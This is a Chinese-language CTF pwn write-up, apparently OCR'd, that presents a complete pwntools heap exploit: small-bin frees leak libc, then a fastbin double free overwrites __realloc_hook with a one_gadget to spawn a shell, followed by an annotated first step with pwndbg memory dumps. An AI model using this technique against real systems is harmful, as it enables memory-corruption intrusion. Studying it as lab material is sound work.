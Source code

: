 ```
add(0x80, '0' * 0x80)    # 0=chunk0
add(0x10, '1' * 0x10)    # 1=chunk1
add(0x80, '2' * 0x80)    # 2=chunk2
add(0x68, 'a' * 0x68)    # 3
add(0x68, 'b' * 0x68)    # 4
pause()
delete(2)                #           unsortbin: chunk2<->main_area<->
delete(0)                #           unsortbin: chunk0<->chunk2<->main_area<->
add(0x80, '4' * 0x80)    # 0=chunk2  unsortbin: chunk0<->main_area<->
pause()
delete(2)                #           unsortbin: chunk2<->chunk0<->main_area<->
add(0x80, '5' * 0x80)    # 2=chunk0  unsortbin: chunk2<->main_area<->
show()
p.recvuntil('0. ')
libc.address = u64(p.recv(6) + '\0\0') - 0x3c4b78
assert libc.address & 0xfff == 0
print('libc = {}'.format(hex(libc.address)))
pause()
delete(3)
delete(4)
add(0x68, 'c' * 0x68)    # 3=chunk4
delete(4)
pause()
edit(3, 0x68, flat(libc.sym['__realloc_hook'] - 0x1b, '\0' * 0x10))
add(0x68, 'd' * 0x68)
add(0x68, flat('\0' * 0xb, libc.sym['one_gadget'], '\0' * 0x10))
p.sendlineafter('choice:', '3')
p.sendlineafter(':', str(1))
p.sendlineafter(':', str(0x80))
p.interactive()
```

**STEP1** 创建了5个节点：

```
add(0x80, '0' * 0x80)    # 0=chunk0
add(0x10, '1' * 0x10)    # 1=chunk1
add(0x80, '2' * 0x80)    # 2=chunk2
add(0x68, 'a' * 0x68)    # 3
add(0x68, 'b' * 0x68)    # 4
```

其中前三个节点组合用于small bin的double free。0x80大小的节点属于small bin范围，通过small bin的double free，来leak main_area地址也即leak libc。后两个节点则属于fastbin范围，用于通过fastbin double free将内存分配到`__realloc_hook`附近。

先关注前3个节点，此时查看内存布局如下：

```
pwndbg> x/gx 0x6020a0
0x6020a0 <list>:        0x00000000011dd010
pwndbg> x/20gx 0x11dd010
0x11dd010:      0x0000000000000100      0x0000000000000005
0x11dd020:      0x0000000000000001      0x0000000000000080
0x11dd030:      0x00000000011de830      0x0000000000000001
0x11dd040:      0x0000000000000010      0x00000000011de8c0
0x11dd050:      0x0000000000000001      0x0000000000000080
0x11dd060:      0x00000000011de8e0      0x0000000000000001
0x11dd070:      0x0000000000000068      0x00000000011de970
0x11dd080:      0x0000000000000001      0x0000000000000068
0x11dd090:      0x00000000011de9e0      0x0000000000000000
0x11dd0a0:      0x0000000000000000      0x0000000000000000
pwndbg> x/44gx 0x11de830-0x10
0x11de820:      0x0000000000000000      0x0000000000000091
0x11de830:      0x3030303030303030      0x3030303030303030
0x11de840:      0x3030303030303030      0x3030303030303030
0x11de850:      0x3030303030303030      0x3030303030303030
```